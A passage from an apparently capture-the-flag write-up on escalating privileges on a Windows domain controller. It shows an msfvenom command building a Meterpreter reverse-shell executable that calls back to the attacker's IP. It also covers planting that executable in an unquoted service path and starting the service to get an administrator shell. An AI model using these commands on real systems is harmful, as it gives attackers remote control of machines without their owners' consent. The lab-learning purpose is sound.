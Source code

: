 after getting two valid credentials; I started the enumeration process again, but this time I thought, let’s first get access. I tried to use evil-winrm but it was not working, as Psremoting was not configured for these accounts. But from our NMAP result, we remember that RDP was running. I tried to get access with RDP on both user creds, and one user creds (bitbucket) was having RDP access.

on logging in we get user.txt the file.

![](https://cdn-images-1.medium.com/max/2000/1*9Q-tuQps0Gwkt6otvs3esA.png)

Now since we are on DC (domain controller) only. we need to elevate our privileges.

## ✅ Privilege Escalation

so first, let's get meterpreter reverse shell so that we could easily work on post-exploitation and privilege escalation.

simply transfer the exploit with the payload configured as windows/x64/meterpreter/reverse_tcp after gaining the first access, I tried to run the **local exploit suggester** to find any exploit that can be used !!

![](https://cdn-images-1.medium.com/max/3870/1*_v4A-F73rCbKHcTd7u_mgA.png)

yes, we got some suggestions, after trying them, I only got an error exploit completed but no session created which is sad !!

![](https://cdn-images-1.medium.com/max/2000/1*l7RQMcaErVMrYQ26CcZcXA.gif)

now I thought of transferring **winpeas.exe **to find a more privileged escalation vector.

![](https://cdn-images-1.medium.com/max/3856/1*emIcFmUxh0E47O53hJuqQw.png)

and yes, there is one **unquoted service path injection vulnerability**, we can take advantage of that.

so I created a msfvenom exploit like so :

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.17.0.110 LPORT=4443 -f exe -o ZeroTier.exe

and transfer it to the path c:\Program Files (x86)\Zero Tier\Zero Tier One

with name as ZeroTier.exe , which will allow us to take advantage of the unquoted service name path.

now let's start the service with Powershell

    Start-Service zerotieroneservice

![](https://cdn-images-1.medium.com/max/NaN/1*XXv66kHqw_dhBOg9Cptj1g.png)

we got the shell, but after getting the shell 4–5 times it is dying every time, so; I think we need to migrate it to a stable process. we can use a post-exploitation module of Metasploit with is windows/manage/migrate . by using that we can migrate to a more stable process.

![](https://cdn-images-1.medium.com/max/2022/1*Y0oG6iRbrLSbSvcwOElF-Q.png)

now we got a stable shell as administrator
